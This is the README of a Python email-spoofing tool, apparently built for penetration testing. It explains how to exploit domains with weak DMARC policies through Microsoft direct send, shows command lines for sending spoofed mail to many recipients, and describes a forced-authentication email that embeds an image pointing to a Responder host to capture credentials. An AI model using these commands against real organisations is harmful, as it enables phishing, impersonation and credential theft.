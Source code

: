 # Spoofit
SpoofIt is a Python tool designed to send spoofed emails for security testing. The tool intends to take advantage of situations where a domain's DMARC policy is not set to "reject," allowing spoofed emails to be sent using Microsoft's "direct send" with a higher likelihood of bypassing spam filters and reaching the target's inbox.
___
## Usage
1. Confirm that the DMARC records are not properly deployed. Ideally policy doesn't exist, or DMARC policy is set to "none". (Still may be possible with "Quarantine", but will surely land in spam.) My go to check is a python3 fork of Spoofcheck: https://github.com/a6avind/spoofcheck

2. Send email using spoofed sender address. (-s can be a single email address or a list of emails. -f is for forced authentication emails, where you'll need to supply your Responder IP as an argument. 
```
python3 Spoofit.py

   _____                   _____ __ 
  / ___/____  ____  ____  / __(_) /_
  \__ \/ __ \/ __ \/ __ \/ /_/ / __/
 ___/ / /_/ / /_/ / /_/ / __/ / /_  
/____/ .___/\____/\____/_/ /_/\__/  
    /_/                             

   
usage: Spoofit.py [-h] [-c CHECK] [-s SENDER] [-r RECIPIENTS] [-f FORCED]

Email Spoofing Tool

options:
  -h, --help            show this help message and exit
  -c CHECK, --check CHECK
                        Check if a domain is vulnerable to spoofing (SPF, DMARC)
  -s SENDER, --sender SENDER
                        Email address to use as the spoofed sender
  -r RECIPIENTS, --recipients RECIPIENTS
                        Recipient email address or file containing multiple addresses
  -f FORCED, --forced FORCED
                        Optional: Forced authentication email with responder IP

Examples:
  To check if the target domain is spoofable:
    Spoofit.py -c <domain.com>

  To send a spoofed email to the target (or list of targets):
    Spoofit.py -s <sender@domain.com> -r <recipient@domain.com or recipients.txt>

  To send a spoofed email containing an embedded forced authentication image to a target (or list of targets):
    Spoofit.py -s <sender@domain.com> -r <recipient@domain.com or recipients.txt> -f <responder-ip>
```
___

## Configuration
Edit the spoofit.conf file in the conf directory to customize the subject and body of the emails. The forced authentication email template is stored separately in forced_auth_template.html within the same directory.

___
